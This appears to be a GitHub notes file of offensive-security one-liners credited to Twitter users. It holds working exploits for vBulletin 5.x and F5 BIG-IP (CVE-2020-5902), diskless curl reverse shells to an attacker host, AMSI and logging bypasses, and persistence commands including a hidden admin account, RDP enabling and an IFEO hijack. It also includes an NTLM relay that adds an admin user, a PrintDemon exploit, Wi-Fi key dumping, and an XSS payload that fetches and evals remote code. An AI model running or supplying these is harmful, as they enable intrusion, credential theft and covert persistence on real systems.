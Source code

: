 # notes 

### @jonasLyk burning shit down

````
mklink "C:\ProgramData\Microsoft\Windows Defender:omgwtfbbq" "\??\NUL"
````

### @rootsecdev straight up making me type
````
$cert=(dir cert:currentuser\my\ -CodeSigningCert)
Set-AuthenticodeSignature .\HashDeploy.ps1 $cert -TimestampServer http://tsa.starfieldtech.com
````

### then this @h4x0r_dz 
0day RCE exploit on vBulletin 5xx

dork ; intext:"Powered by vBulletin"

POC
````
curl -s http://SITE/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=echo%20shell_exec("id"); exit;'
````

### whoa there @Sambal0x (Richard Tan) with the beefiest threadzilla:
Having trouble bypassing SSL-pinning on Android app? 

````
apktool -r d com.example.apk
find . -type f -exec sed -i 's/https\:\/\/api.example.com\//http\:\/\/api.example.com\//g' {} +
apktool empty-framework-dir --force
apktool b com.example -o test.apk

keytool -genkey -v -keystore my-release-key.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.keystore test.apk alias_name

````
In Burp suite, configure Proxy Listener to redirect port from 80 to 443.

Profit! though some app just don't work with this method 	:sweat_smile:

Original idea from https://hackerone.com/blog/AndroidHackingMonth-qa-with-bagipro


### @swiftonsecurity does no code

Ransomware IOC.

````
adfind.exe
nc.exe
winexesvc.exe
tor.exe
cmdkey.exe
regini.exe
vaultcmd.exe
ldifde.exe
csvde.exe
rar.exe
dsquery.exe
````

### @popopret with the wifi hax

````
netsh wlan show profile
netsh wlan show profile "<WiFi_Profile_Name>" key=clear
````
### @mRr3b00t does the basics and I add some

````
net user /add MfeEPSvc h4x0r0p53c!
net localgroup administrators /add MfeEPSvc
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="remote administration" new enable=yes
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer" /v AlwaysInstallElevated /t REG_DWORD /d 1 /f
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v "Debugger" /t REG_SZ /d "C:\$Recycle.Bin\notpad.exe"

````

### matty graeber I think it was:

````
[Ref].Assembly.GetType('http://System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
````

and old school AMSI bypass by reflection recorded here for posterity. 

#### improved on by @cobblr
````
[ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))

# check
Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure
````

### @joevennix writes:

````
reverse curl is a solid payload:

P=$(mktemp -u);mkfifo $P;curl -sNkT . https://$LHOST:$LPORT<$P|sh>$P
````
(diskless on linux):

````  
{ curl -sNkT . https://$LHOST:$LPORT </dev/fd/3| sh 3>&-;} 3>&1|:
````
diskless linux reverse shell :fire:

### @noopy writes:

````
["Computers you have admin on","HTML","pwn.html","MATCH (m:Group {name: 'GROUP@EXAMPLE.COM'})-[r:AdminTo]->(n:Computer) RETURN http://n.name"]
Copy+paste -> CrackMapExec
````
Bloodhound tip. :star:

### @neosysforensics ™  for PrintDemon bug on Windows 7

```
1. Set-WmiInstance -Class Win32_Printer -Argument @{DriverName="Generic / Text Only" ;PortName="c:\windows\system32\mydll.dll" ;DeviceID="EvilPrinter" ;RawOnly="True"}

2. $printers=Get-WmiObject Win32_Printer

3. $printer = $printers | where {$_.name -eq "EvilPrinter"}

4. $printer.Pause()

5. Start-Process -FilePath “mydll.txt" -Verb Print

--Reboot the system--

6. $printers=Get-WmiObject Win32_Printer
7. $printer = $printers | where {$ _.name -eq "EvilPrinter"}
8. $printer.Resume()
```
### @akita_zen from Argentina says

```
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

### From Paul Seekamp @nullenc0de...

SMB Signing enabled? NetBIOS and LLMNR disabled? Need another way in?

```
mitm6 -i eth0 -d example.local

ntlmrelayx.py -ip 0.0.0.0 -t rpc://example.local -c "net user nullenc0de nullen0code_is_Here /add && net localgroup Administrators nullenc0de /add"
```

### @liamsomerville 

A quick and easy way of pretty printing JSON web tokens: 

```` echo "<JWT>" | tr "." "\n" | base64 -D | jq "." (-d on Linux) ````

### Powershell obfuscation
![Powershell Obfuscation](./EaTH6REWsAE0rfU.jpeg)


### @0gtweet (Grzegorz Tworek) on Twitter says

Live kernel dump with PowerShell one-liner :sunglasses:

````
$ss = Get-CimInstance -ClassName MSFT_StorageSubSystem -Namespace Root\Microsoft\Windows\Storage
Invoke-CimMethod -InputObject $ss -MethodName "GetDiagnosticInfo" -Arguments @{DestinationPath="C:\dmp"; IncludeLiveDump=$true}
````

### @x4ce spills the beans on cve-2020-5902 :neckbeard:

First RCE: 

````curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'````

then arbitrary read File: 

````curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'````

### not to be outdone @wugeej rams the exploit in the skids hands
LFI

````
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
or /etc/hosts
or /config/bigip.license
````

RCE

````
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami
````
or to bypass mitigation :eyes:

````https://<IP>/tmui/login.jsp/..%3b/tmui/locallb/workspace/tmshCmd.jsp?command=list````

### @ropnop does javascript! xss source remote payload

````
<svg/onload='fetch("//r0p.cc/a").then(r=>r.text().then(t=>eval(t)))'>
````

but I doubt it will work everywhere?
